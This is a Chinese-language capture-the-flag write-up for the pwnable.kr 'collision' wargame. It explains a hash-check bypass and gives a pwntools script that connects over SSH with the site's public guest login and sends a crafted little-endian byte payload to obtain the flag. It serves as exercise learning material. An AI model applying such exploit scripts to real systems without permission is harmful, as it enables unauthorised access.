



# collision

Daddy told me about cool MD5 hash collision today. I wanna do something like that too!

`ssh col@pwnable.kr -p2222` (pw: guest)

**The flag IS NOT in the regular format.**

## WP

查看目录，发现一个可执行文件，源码以及Flag。



查看源码，发现我们需要做的是输入一个长度为20字节的密码，且该密码每4个字节会被视为一个`int`类型值（20位总共有5个`int`），将它们加起来后若总和等于`0x21DD09EC`则打印Flag。



由于要凑出`0x21DD09EC`，payload中必须存在不可打印字符，因此使用`pwntools`进行攻击，脚本如下：

```python
from pwn import *

shell = ssh(host='pwnable.kr', user='col', port=2222, password='guest')
conn = shell.run('/bin/sh')
conn.sendline(b'~/col \xe8\x05\xd9\x1d\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01')
conn.interactive()
```

在发送不可打印字符时有两点需要注意：

1. 由于服务器的存储方式是小端序，因此一个int中的字节顺序需要倒置。
2. 不可打印字符中有些字符会截断传参的读入，如`\x09`（水平制表符），`\x00`（空字符）等，payload中要避免出现这些字符。



发送payload后成功拿到Flag。

